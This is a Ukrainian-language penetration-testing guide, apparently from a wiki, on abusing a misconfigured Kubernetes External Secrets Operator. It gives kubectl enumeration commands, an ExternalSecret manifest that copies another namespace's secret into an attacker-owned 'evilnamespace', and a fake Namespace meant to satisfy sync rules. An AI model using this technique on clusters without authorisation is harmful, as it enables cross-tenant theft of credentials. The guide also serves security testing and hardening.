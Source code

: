 # External Secret Operator

**Оригінальний автор цієї сторінки** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ця сторінка надає кілька порад про те, як ви можете вкрасти секрети з неправильно налаштованого ESO або програми, яка використовує ESO для синхронізації своїх секретів.

## Відмова від відповідальності

Техніка, показана нижче, може працювати лише за певних обставин. Наприклад, це залежить від вимог, необхідних для дозволу синхронізації секрету в просторі імен, яким ви володієте / який ви скомпрометували. Вам потрібно з'ясувати це самостійно.

## Передумови

1. Наявність доступу до кластера kubernetes / openshift з адміністративними привілеями в просторі імен
2. Доступ на читання принаймні до ExternalSecret на рівні кластера
3. З'ясуйте, чи є якісь необхідні мітки / анотації або членство в групі, які дозволяють ESO синхронізувати ваш секрет. Якщо вам пощастить, ви зможете вільно вкрасти будь-який визначений секрет.

### Збір інформації про існуючий ClusterSecretStore

Припустимо, що у вас є користувач, який має достатньо прав для читання цього ресурсу; почніть з того, щоб спочатку перерахувати існуючі _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Припустимо, ви знайшли ClusterSecretStore з назвою _**mystore**_. Продовжте, перераховуючи його асоційовані externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Цей ресурс має область видимості простору імен, тому, якщо ви ще не знаєте, в якому просторі імен шукати, додайте опцію -A, щоб переглянути всі простори імен._

Вам слід отримати список визначених externalsecret. Припустимо, ви знайшли об'єкт externalsecret під назвою _**mysecret**_, визначений і використаний простором імен _**mynamespace**_. Зберіть трохи більше інформації про те, який тип секрету він містить.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Збирання частин

З цього місця ви можете отримати назву одного або кількох секретів (як визначено в ресурсі Secret). Ви отримаєте вихідні дані, подібні до:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Отже, ми отримали:

- Ім'я ClusterSecretStore
- Ім'я ExternalSecret
- Ім'я секрету

Тепер, коли у нас є все необхідне, ви можете створити ExternalSecret (і, в кінцевому підсумку, виправити/створити новий Namespace, щоб відповідати вимогам, необхідним для синхронізації вашого нового секрету):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Після кількох хвилин, якщо умови синхронізації були виконані, ви повинні мати можливість переглянути витік секрету у вашому просторі імен.
```sh
kubectl get secret leaked_secret -o yaml
```
## Посилання

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}

